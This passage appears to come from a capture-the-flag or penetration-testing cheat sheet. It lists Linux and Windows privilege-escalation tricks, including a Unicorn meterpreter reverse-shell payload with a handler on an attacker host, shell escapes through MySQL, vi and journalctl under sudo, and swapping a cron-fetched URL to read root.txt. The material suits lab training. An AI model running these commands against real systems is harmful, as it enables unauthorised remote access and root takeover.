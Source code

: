   ```
  id
  uid=1001(enemy) gid=1001(enemy) groups=1001(enemy)
  ```
* To get Shell on Windows use [Unicorn](https://github.com/trustedsec/unicorn.git)
  ```
  root# /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333 
  [*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
  root# msfconsole -r unicorn.rc 
  [*] Started reverse TCP handler on <HOST_IP>:3333 
  msf5 exploit(multi/handler) >         
  ```
* Get Shell from MYSQL
  ```
  mysql> \! /bin/sh
  ```
  
* To get Root from VI
  ```
  www-data@enemy:$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
  ```
  or
  ```
  www-data@enemy:$ sudo /usr/bin/vi /var/www/html/anyrandomFile
  Type Escape and enter :!/bin/bash
  ```
* Use [Pspy](https://github.com/DominicBreuker/pspy) for Getting information on cron, proceses etc.
* If some system cron is getting some url present in the file, we can replace url to get flag as below.
  ```
  root@kali:~/admin-area$ cat input 
  url = "file:///root/root.txt"
  ```
* Lot of Privilige Exec Depends on Cronjobs and to monitor use, we can tail the logs for sometime to observe the actions.
  ```
  sun@kali:~/Documents$ tail -f /var/log/syslog
  Nov 18 23:55:01 sun CRON[5327]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
  Nov 19 00:00:01 sun CRON[5626]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
  Nov 19 00:00:01 sun CRON[5627]: (sun) CMD (nodejs /home/sun/server.js >/dev/null 2>&1)
  Nov 19 00:05:01 sun CRON[5701]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
  ```
* If we dont exactly remember how to use a given setuid command to get Privliges, use [Gtfobins](https://gtfobins.github.io/)
* If any file we found in low priv user and it contains something like this, we can execute it and minimize the size of terminal to enter the visual mode and enter `!/bin/bash` to get root shell
  ```
  user@kali:~/bin$ cat new.sh 
  #!/bin/bash
  /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
  
  root@kali:~/bin$ sh new.sh 
  -- Logs begin at Sun 2019-11-17 19:19:25 EST, end at Mon 2019-11-18 17:13:44 EST. --
  Nov 18 17:02:26 kali sudo[11538]: pam_unix(sudo:auth): authentication failure; logname= uid=33 eu
  Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): conversation failed
  Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): auth could not identify password for [www-
  Nov 18 17:02:29 kali sudo[11538]: www-data : command not allowed ; TTY=unknown ; PWD=/tmp ; USER=
  ```